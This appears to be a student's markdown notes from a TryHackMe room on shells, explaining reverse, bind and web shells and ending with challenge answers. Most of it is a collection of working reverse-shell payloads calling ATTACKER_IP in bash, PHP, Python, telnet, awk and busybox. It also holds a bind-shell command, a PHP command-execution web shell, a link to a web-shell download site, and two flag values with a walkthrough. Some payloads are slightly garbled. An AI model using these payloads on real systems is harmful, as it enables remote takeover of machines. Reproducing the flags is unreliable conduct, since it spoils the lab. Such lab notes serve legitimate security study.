


# Shell
## What is a Shell? 

A shell is software that helps users interact with an operating system (OS). It can be a graphical interface but is often a command-line interface, depending on the OS. 

In cybersecurity, a shell typically refers to a session an attacker uses to access a compromised system, letting them run commands and execute programs. This access allows attackers to perform several actions. 

## Key Points: 

• Remote System Control: Attackers can execute commands or software on the target system from a distance. 

• Privilege Escalation: Attackers may try to gain higher access, such as administrative privileges if initial access is limited. 

• Data Exfiltration: They can read and copy sensitive data once they have command access.

• Persistence and Maintenance Access: Attackers can establish continued access through user accounts or backdoor software.

• Post-Exploitation Activities: After gaining shell access, they can deploy malware, create hidden accounts, or delete files. 

• Access Other Systems on the Network: The obtained shell may serve as an entry point for further attacks within the network, a practice known as pivoting. 

The shells discussed later can help achieve various attack objectives.

# Reverse Shell 

A reverse shell, known as a "connect back shell," is a common technique used in cyberattacks to gain access to a system. It connects from the target system to the attacker's machine, which helps evade detection by security devices like firewalls. 

## How Reverse Shells Work 

• Set up a Netcat Listener: To understand how a reverse shell operates, we use the Netcat tool, which works on various operating systems and allows reading and writing over a network. The attacker sets up a listener using the command `nc -lvnp 443`. 

• These command options include `-l` for listening, `-v` for verbose mode, `-n` to prevent DNS lookups, and `-p`, which specifies the port to wait for connectionshere, port 443. Attackers often use commonly known ports (53, 80, 8080, 443, 139, or 445) to blend in with regular traffic and not get detected. 

• Gaining Reverse Shell Access: After setting up a listener, the attacker executes a reverse shell payload. This payload usually exploits a vulnerability or unauthorized access to create a shell that communicates over the network. Different payloads depend on the tools and operating systems used, one example being the pipe reverse shell: 

``` 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2&gt;&amp;1 | nc ATTACKER_IP ATTACKER_PORT &gt;/tmp/f 
``` 

• Explanation of the Payload: 

• `rm -f /tmp/f`: Deletes any existing named pipe file at /tmp/f to create a new one without issues. 

• `mkfifo /tmp/f`: Creates a named pipe, enabling two-way communication. 

• `cat /tmp/f`: Reads input from the named pipe.

• `| bash -i 2&gt;&amp;1`: Connects input to an interactive shell, sending error messages back. 

• `| nc ATTACKER_IP ATTACKER_PORT &gt;/tmp/f`: Sends the shell output to the attacker's machine. 

• Attacker Receives the Shell: After the payload runs, the attacker receives a reverse shell and can execute commands as if they were logged into a normal terminal. 

### Example output from the attacker receiving the shell: 

``` 
Listening on [any] 443 . . . 
connect to [10. 4. 99. 209] from (UNKNOWN) [10. 10. 13. 37] 59964 
``` 

This connection shows the target's IP address, indicating successful access.

# Bind Shell 

A bind shell is a method used by attackers to remotely execute commands on a compromised system by binding a port and listening for incoming connections. This approach is useful when the target does not permit outgoing connections, but it is less common due to the risk of detection when the shell stays active and listens. 

## How Bind Shells Work 

Setting Up the Bind Shell on the Target 
To create a bind shell, an attacker runs the following command on the target machine: 

``` 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2&gt;&amp;1 | nc -l 0. 0. 0. 0 8080 &gt; /tmp/f 
``` 

## Explanation of the Payload: 

• `rm -f /tmp/f`: Removes any existing named pipe at `/tmp/f` to avoid conflicts. 

• `mkfifo /tmp/f`: Creates a new named pipe at `/tmp/f` for two-way communication. 

• `cat /tmp/f`: Reads data from the named pipe, waiting for input. 

• `| bash -i 2&gt;&amp;1`: Sends the output from the named pipe to an interactive shell, 
allowing command execution and error messages to be sent back. 

• `| nc -l 0. 0. 0. 0 8080`: Starts Netcat in listening mode at port 8080 on all interfaces, exposing the shell to any incoming connections. 

• `&gt;/tmp/f`: Redirects the output back into the named pipe for two-way communication. 

Ports below 1024 require elevated privileges for execution, thus port 8080 is chosen to avoid this. 

## Attacker Connects to the Bind Shell 

After the bind shell is set up, the attacker connects using the command: 

``` 
nc -nv TARGET_IP 8080 
``` 

## Explanation of the command: 

• `nc`: Calls Netcat to establish the connection. 

• `-n`: Disables DNS resolution for faster performance. 

• `-v`: Enables verbose mode for detailed output. 

• `TARGET_IP`: The target's IP address where the bind shell is set up. 

• `8080`: The listening port of the bind shell. 

The attacker will see an open connection once connected, allowing them to execute commands on the target machine.

# Tools for Listening to Reverse Shells 

## Introduction: 
This content discusses different utilities that can be used as listeners for connecting with reverse shells from compromised targets to an attacker's machine. 

## Key Points: 

1. Reverse Shell Overview: 
A reverse shell connects a compromised target back to the attacker's machine. While Netcat is commonly used, other utilities can also facilitate this. 

2. Rlwrap: 
• A small utility that enhances Netcat by providing keyboard editing and command history features. 

• Usage Example: 
``` 
attacker@kali:~$ rlwrap nc -lvnp 443 
``` 

3. Ncat: 

• An enhanced version of Netcat from the NMAP project, offering additional features such as SSL encryption. 

• Listening without SSL: 
``` 
attacker@kali:~$ ncat -lvnp 4444 
``` 
• Listening with SSL: 
``` 
attacker@kali:~$ ncat --ssl -lvnp 4444 
``` 

4. Socat: 
• A utility that creates socket connections between different hosts. 

• Default Usage Example: 
``` 
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT 
``` 

## Conclusion: 
These tools provide various functionalities to listen for incoming reverse shells, enhancing the attacker's ability to manage interactions with compromised systems.

# Shell Payloads 

## Introduction 
This document discusses various shell payloads used in Linux to create reverse shells. These payloads enable an attacker to control a target machine by exposing the shell to an incoming connection. 

## Key Points 

### Bash Reverse Shells 
1. Normal Bash Reverse Shell 
• Command: `bash -i &gt; /dev/tcp/ATTACKER_IP/443 0&gt;&amp;1` 
• Creates an interactive bash shell that connects to the attacker’s IP on port 443. 

2. Bash Read Line Reverse Shell 
• Command: `exec 5&lt;&gt;/dev/tcp/ATTACKER_IP/443; cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done` 
• Establishes a TCP socket and executes commands sent via that socket while sending output back. 

3. Bash With File Descriptor 196 Reverse Shell 
• Command: `0&lt;&amp;196;exec 196&lt;&gt;/dev/tcp/ATTACKER_IP/443; sh &lt;&amp;196 &gt;&amp;196 2&gt;&amp;196` 
• Uses file descriptor 196 to read commands from and send output to a TCP connection. 

4. Bash With File Descriptor 5 Reverse Shell 
• Command: `bash -i 5&lt;&gt; /dev/tcp/ATTACKER_IP/443 0&lt;&amp;5 1&gt;&amp;5 2&gt;&amp;5` 
• Similar to the first example, using file descriptor 5 for input and output on the TCP connection. 

### PHP Reverse Shells 
1. Using the exec Function 
• Command: `php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh &lt;&amp;3 &gt;3 2&gt;&amp;3");'` 
• Creates a socket connection and executes a shell. 

2. Using the shell_exec Function 
• Command: `php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh &lt;&amp;3 &gt;3 2&gt;&amp;3");'` 
• Similar to the exec function but uses shell_exec. 

3. Using the system Function 
• Command: `php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh &lt;&amp;3 &gt;3 2&gt;&amp;3");'` 
• Executes a command and outputs it to the browser. 

4. Using the passthru Function 
• Command: `php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh &lt;&amp;3 &gt;3 2&gt;&amp;3");'` 
• Executes a shell and sends raw output back. 

5. Using the popen Function 
• Command: `php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh &lt;&amp;3 &gt;3 2&gt;&amp;3", "r");'` 
• Opens a process file pointer to execute the shell. 

### Python Reverse Shells 
1. Using Environment Variables 
• Command: `export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket. socket();s. connect((os. getenv("RHOST"),int(os. getenv("RPORT"))));[os. dup2(s. fileno(),fd) for fd in (0,1,2)];pty. spawn("bash")'` 
• Sets remote host and port, connects through a socket, and spawns a shell. 

2. Using the subprocess Module 
• Command: `PY-C 'import socket,subprocess,os;s=socket. socket(socket. AF_INET,socket. SOCK_STREAM);s. connect(("ATTACKER_IP",443));os. dup2(s. fileno(),0); os. dup2(s. fileno(),1);os. dup2(s. fileno(),2);import pty; pty. spawn("bash")'` 
• Uses subprocess to create a similar environment. 

3. Short Python Reverse Shell 
• Command: `PY-C 'import os,pty,socket;s=socket. socket();s. connect(("ATTACKER_IP",443));[os. dup2(s. fileno(),f)for f in(0,1,2)];pty. spawn("bash")'` 
• Connects to the attacker and redirects input/output. 

### Other Methods 
1. Telnet 
• Command: `TF=$(mktemp -u); mkfifo $TF &amp;&amp; telnet ATTACKER_IP 443 0&lt;$TF | sh 1&gt;$TF` 
• Uses a named pipe with Telnet to connect to the attacker. 

2. AWK 
• Command: `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell&gt;" |&amp; s; s |&amp; getline c; if(c){ while ((c |&amp; getline) &gt; 0) print $0 |&amp; s; close(c); } } while(c ! = "exit") close(s); }}' /dev/null` 
• Utilizes AWK’s TCP capabilities to create a reverse shell. 

3. BusyBox 
• Command: `busybox nc ATTACKER_IP 443 -e sh` 
• Connects to the attacker using Netcat and executes the shell. 

### Conclusion 
The document presents a variety of methods to create reverse shells in Linux using Bash, PHP, Python, and other tools. Each example demonstrates how to connect to an attacker's IP and allows execution of commands remotely.


# Web Shells 

## Introduction: 
A web shell is a script that runs on a hacked web server, allowing attackers to execute commands through the server. It usually hides within a compromised application, making it hard to find. 

## Key Points: 
• Web shells are commonly written in server-supported languages like PHP, ASP, JSP, and CGI scripts. 

• An example of a PHP web shell includes a basic script that executes commands passed through a URL. For instance: 

```php 
 php 
if (isset($_GET['cmd'])) { 
system($_GET['cmd']); 
} 
? &gt; 
``` 
• This script can be saved as shell. php and uploaded to the web server through various vulnerabilities, allowing the attacker to access it by going to a specific URL, such as: 
`http://victim.com/uploads/shell. php? cmd=whoami`. 

• There are existing web shells available online with varying functionalities, including:

• p0wny-shell: A simple PHP web shell for remote command execution. 

• b374k shell: A more advanced PHP web shell that manages files and executes commands. 

• c99 shell: A robust PHP web shell with extensive features. 

## Conclusion: 
Web shells exploit web server vulnerabilities, enabling attackers to execute commands remotely while remaining undetected. More web shells can be found at: https://www. r57shell.net/index. php.

# Try Hack me Challenge

- Q: Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the / directory?
- A: THM{0f28b3e1b00becf15d01a1151baf10####bc625}
- Guide: First access the website for the rev shell exercise.
        # Then open a listener with netcat: nc - lvpn PORT
        # Then, in the input form use the following: 
         ```bash
         rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc MACHINE_IP PORT >/tmp/f
         ```
        # After getting access, all left to do is: cd / | cat flag.txt



- Q: Using a web shell, exploit the unrestricted file upload vulnerability and get a shell. What is the content of the flag saved in the / directory?

- A: THM{202bb14ed12120b31300cfbbbdd35998786b44e5}

- C: For this one we used the p0wny-shell, accessing /uploads/shell.php i get the following:
